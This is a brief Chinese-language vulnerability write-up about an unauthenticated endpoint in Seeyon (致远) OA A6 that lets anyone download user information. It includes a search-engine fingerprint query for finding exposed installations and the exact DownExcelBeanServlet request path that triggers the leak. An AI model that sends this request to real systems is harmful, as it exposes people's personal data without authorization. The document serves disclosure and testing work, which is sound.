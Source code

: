 # 

# 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```

![image-20220520151947895](./images/202205201519045.png)
